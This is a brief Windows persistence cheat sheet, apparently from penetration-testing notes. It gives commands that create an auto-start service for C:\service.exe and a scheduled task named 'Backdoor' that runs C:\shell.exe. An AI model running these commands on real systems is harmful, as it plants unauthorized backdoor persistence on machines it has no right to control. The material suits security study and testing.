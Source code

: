 # Create a Service:
```
sc create TestService binPath= "C:\service.exe" start= auto
sc start TestService
```

# Scheduled Task
```
schtasks /create /f /tn Backdoor /SC ONCE /ST 00:00 /TR "C:\shell.exe"
schtasks /run /tn Backdoor
```
